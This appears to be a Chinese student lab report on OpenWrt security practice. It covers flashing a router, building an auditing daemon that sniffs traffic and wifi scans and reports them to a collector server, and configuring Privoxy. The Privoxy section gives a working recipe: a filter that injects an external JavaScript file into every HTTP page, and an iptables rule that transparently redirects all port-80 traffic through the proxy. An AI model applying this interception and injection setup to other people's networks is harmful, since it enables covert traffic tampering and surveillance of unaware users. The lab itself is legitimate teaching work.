# 实验二  OpenWrt安全实践

## 一、实验内容
- [x] 在openwrt上安装软件，开通ssh，AP服务等；
- [x] 在openwrt上安装auditord，配置相关文件;
  - [ ] 抓取ftp、telnet嗅探的内容，发送到外置服务器，并接收;
  - [x] 抓取无线网卡wifi信号嗅探的内容，发送到外置服务器，并接收;
- [x] 在openwrt上安装privoxy，完成配置文件，实现对http协议的js代码注入功能。

## 二、实验环境
- MacOS Big Sur 11.6
- Windows 11
- VirtualBox 6.1
- Kali GNU/Linux Rolling 2021.4
- openwrt 19.07.9
- 路由器：PHICOMM AC1200MI(已刷breed)</b>
  - 内存：64MB
  - flash：8MB


## 三、实验过程
### PART1：给路由器刷OpenWrt
#### 1. 登录到路由器的breed web控制台
- 准备好openwrt固件</b>
- 浏览器输入`192.168.1.1`登录到breed</b>
- 选择刚才下载好的固件并点击上传
- 等待数秒后成功刷好openwrt

#### 2. 登录到路由器的`openwrt`web页面
- 成功登录openwrt管理界面并查看系统信息如下</b>
- 至此,路由器的OpenWrt版本已刷好


### PART2：在OpenWrt上安装软件，开通ssh，AP服务等
#### 1. 变更路由器的ip地址
- 主机可以成功ssh连接到路由器，此时路由器的ip还是`192.168.1.1`</b>
- `vim /etc/config/network`将路由器的ip地址改为`192.168.9.1`并保存以便后续操作</b>

#### 2. 开启路由器ssh登录功能
- 通过路由器LAN口与PC连接，进入路由器网关192.168.9.1，点击`系统-管理权-主机密码`设置SSH登入密码</b>

#### 3.开启路由器AP服务
- 点击`网络-无线`，如图，AP服务已开启</b>
### PART3：在OpenWrt上安装Auditord并应用
#### 1. 编译Auditord
##### 1.1 把相应的文件移至Kali虚拟机中
```
openwrt-sdk-19.07.9-ramips-mt7620_gcc-7.5.0_musl.Linux-x86_64.tar

auditord
```
</b>

##### 1.2 准备sdk环境并添加环境变量
- 编辑相应文件，将sdk中staging_dir/toolchain/bin添加进环境变量中
```bash
vim $HOME/.zshrc
```
</b>

- 应用并确定环境变量生效

```bash
source $HOME/.bashrc 
echo $PATH
mipsel-openwrt-linux-gcc -v #有正常输出即为生效
```
</b>

##### 1.3 安装相应的依赖库
**声明所用的交叉编译器环境，保证可兼容**
```bash
export CC=mipsel-openwrt-linux-gcc 
```
**安装json-c**
```bash
git clone https://github.com/json-c/json-c.git
cd json-c

mkdir build
cd build
../cmake-configure --prefix=/home/kali/Desktop/openwrt-sdk-19.07.9-ramips-mt7620_gcc-7.5.0_musl.Linux-x86_64/staging_dir/toolchain-mipsel_24kc_gcc-7.5.0_musl

make
```

**安装libubox**
```bash
git clone http://git.openwrt.org/project/libubox.git
cd libubox
cmake -DBUILD_LUA=off
cmake CMakeLists.txt
make
make install
# /libubox/libubox.so
```
**安装libuci**
```bash
git clone https://git.openwrt.org/project/uci.git uci
cd uci
cmake -DBUILD_LUA=off
cmake CMakeLists.txt
make
# /uci/libuci.so
```
##### 1.4 编译auditord
- 将auditord文件夹移至`sdk/package`，并执行下述编译命令
```bash
make package/auditord/compile V=99
```
</b>

- 编译成功结果如下
</b>

##### 1.5 安装auditord
- 将编译好的ipk包传输至路由器中
```bash
scp auditord_1_mipsel_24kc.ipk root@192.168.1.1:/
```
- 在路由器中安装
```bash 
opkg updates
opkg install audit
opkg install auditord_1_mipsel_24kc.ipk

auditord #有正常输出即为安装并运行成功
```
</b>

##### 1.6 修改配置文件
- 根据本机IP修改配置文件
```bash
vim /etc/config/audit
```

```bash
config bsac audit
  option serverip '192.168.1.213'
  option port '8080'
  option enabled '1'
```
</b>


#### 2. 使用SSH连接路由器，并开启Auditord功能
- 本实验拓扑图如下
</b>
*由于探针程序为`Centercontrol.exe`，故以下实验在**Windows系统**下完成*
- 通过`ipconfig`查看本机IP地址：`192.168.1.213`</b>


##### 2.1 ftp抓包解析
- 暂时无法实现抓包解析
##### 2.2 telnet抓包解析
- 暂时无法实现抓包解析
##### 2.3 Wifi信号统计
- 路由器能够每隔一段时间扫描周围其他的AP信息，并将扫描的结果通过udp发送socket至目标服务器，如下图所示
</b>

#### 源码审计
- 针对无法实现ftp和telnet抓包解析问题，经过面向互联网的搜索，面向同学的讨论后浅作出如下分析：
  - 此处参考[netlink简介](https://www.cnblogs.com/bbsno1/p/3279761.html)及[内核模块开发](https://linux.fasionchan.com/zh_CN/latest/system-programming/kernel-programming/module-development.html)

- `auditord.c`源代码中使用netlink机制实现内核与用户空间进程的通信,如下图所示</b>
> netlink协议基于BSD socket和AF_NETLINK地址簇(address family)，使用32位的端口号寻址(以前称作PID)，每个netlink协议(或称作总线，man手册中则称之为netlink family)，通常与一个或一组内核服务/组件相关联，如NETLINK_ROUTE用于获取和设置路由与链路信息、NETLINK_KOBJECT_UEVENT用于内核向用户空间的udev进程发送通知等
- 使用`netlink`具体代码如下

```c
/* ap create socket for collecting ue macs from netlink */
int auditor_open_netlink_listen(int protocal)
{
    int ret = -1;
    int sock_fd;
    struct sockaddr_nl src_addr;

    sock_fd = socket(AF_NETLINK, SOCK_RAW, protocal);
    if (sock_fd < 0) {
        DEBUG("[%s]: call socket fail!\n", __func__);
        return -1;
    }

    memset(&src_addr, 0, sizeof(src_addr));
    src_addr.nl_family = AF_NETLINK;
    src_addr.nl_pid    = 0;
    src_addr.nl_groups = 0;

    ret = bind(sock_fd, (struct sockaddr *)&src_addr, sizeof(src_addr));
    if (ret < 0) {
        DEBUG("[%s]: call bind fail!\n", __func__);
        close(sock_fd);
        return -1;
    }

    g_auditor_fd = sock_fd;
    return 0;
}

```
- 除了协议本身，netlink还支持**自定义协议**，如`auditord.h`中`26号协议`即代码作者自定义的协议
```c
#define NETLINK_AUDITOR_PROTO       26      /* netlink protocal for collecting auditor info */
```
- 在`auditord.c`中对使用26号协议进行判别
```c
    /* init ue mac list, and open socket for ap_netlink */
    if (auditor_open_netlink_listen(NETLINK_AUDITOR_PROTO) != 0) {
        DEBUG("[%s]: LINE %d Call ap_open_netlink_listen fail!\n", __func__,__LINE__);
        return -1;
    }
```
##### 然而，为实现netlink自定义协议，还需要写一个内核模块并编译，并使用`insmod`加载内核模块,而现有的代码中缺失了该内核模块，导致路由器嗅探不到ftp，telnet的流量，并报错`LINE %d Call ap_open_netlink_listen fail!`

- 而Wifi信号统计可以成功完成,是因为根据如下代码得知，程序执行时模拟命令行输入，无需嗅探流量，因此无需使用netlink与内核交互，所以即使代码缺失也与之无关。
```c
static void scan_guest_ssid_from_shell( void )
{
    char buffer[512] = {0};
    FILE *pipe = popen(AUT_SCAN_WIFI_CMD, "r");
    if (!pipe) {
        return;
    }
    while (!feof(pipe)) {
        memset(buffer, 0, sizeof(buffer));
        if (fgets(buffer, sizeof(buffer), pipe)) {
            char *tmp = audit_trim(buffer);
            if (!tmp) {
                continue;
            }
            //DEBUG("--------> tmp : %s \n", tmp);
            parse_guest_ssid_and_mac(tmp);

        }
    }
    pclose(pipe);
    audit_send_async_event(&audit_ssid_event);

}

```
### PART4：在OpenWrt上安装Privoxy并应用
#### 1. 使用包管理工具`opkg`安装`Privoxy`
```bash
opkg update 
opkg install privoxy
```
如图，privoxy已安装完毕</b>
#### 2. 修改配置文件
##### 2.1 修改`/etc/config/privoxy`为[privoxy](./files/privoxy)
```bash
vim /etc/config/privoxy
```
- 具体修改部分如下
```bash
list	filterfile	'user.filter' # 去掉注释符
list	actionsfile	'user.action' # 去掉注释符
option	accept_intercepted_requests	'1' # 将0改为1
```
</b>

##### 2.2 修改`/etc/privoxy/user.filter`为[user.filter](./files/user.filter)
```bash
vim /etc/privoxy/user.filter
```
- 添加如下内容
```bash
FILTER: block-weeds
s|</head>|<script type="text/javascript" src="http://www.yswifi.com/ystest/js/floating.js"></script>$0|
```
</b>

##### 2.3 修改`/etc/privoxy/user.action`为[user.action](./files/user.action)

```bash
vim /etc/privoxy/user.action
```
- 添加如下内容
```bash
{+filter{block-weeds}}
.*
```
</b>

##### 2.4 添加路由规则
```bash
iptables -t nat -A PREROUTING -s 0.0.0.0/0.0.0.0 -p tcp --dport 80 -j REDIRECT --to-ports 8118
```
</b>
 
##### 2.5 重启privoxy服务
```bash
/etc/init.d/privoxy restart
```
</b>

#### 3. 登录网站验证
- 浏览器访问使用**http协议**的网站`http.p2hp.com`
- 在页面上点击`右键-查看源码`，如下图所示：
</b>
- 可以在网页源代码中通过使用Ctrl+F 中搜索到找到前文插入的js信息(http://www.yswifi.com/ystest/js/floating.js),说明注入成功。


## 四、问题与解决方法
> 1. opkg下载过慢
- 换成清华源
```bash
sed -i 's/downloads.openwrt.org/mirrors.ustc.edu.cn\/openwrt/g' /etc/opkg/distfeeds.conf
```

> 2. 命令行执行  `opkg update && opkg install` 始终不成功
- 浏览器进入openwrt管理页面,选择`System->Software`,选择需要安装的软件包进行手动安装</b>

> 3. 对auditord进行交叉编译时显示缺少包
- 手动安装对应的包，包括liubox，libuci等，具体方法已在实验报告中详细说明

> 4. 在安装auditord的时候报错</b>
- 根据报错提示删除对应文件再安装即可

## 五、参考资料
- [opkg换源](https://mirror.tuna.tsinghua.edu.cn/help/openwrt/)
- [OpenWrt交叉编译之环境变量设置](https://its201.com/article/lyndon_li/84453492)
- [Ubuntu交叉编译UCI](https://blog.csdn.net/hexf9632/article/details/109839659)
- [OPENWRT开发--UCI API编程接口（LIBUBOX库、UCI库）](https://www.freesion.com/article/3823154192/)
- [libpcap交叉编译到mipsel架构处理器MT7628/n(在Ubuntu系统下,编译出openwrt系统可运行库)](https://blog.csdn.net/qq_31028313/article/details/86024637)
- [Linux audit详解](https://blog.csdn.net/whuzm08/article/details/87267956?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522164817052416782089343232%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=164817052416782089343232&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-1-87267956.142^v3^control,143^v4^control&utm_term=audit&spm=1018.2226.3001.4187)
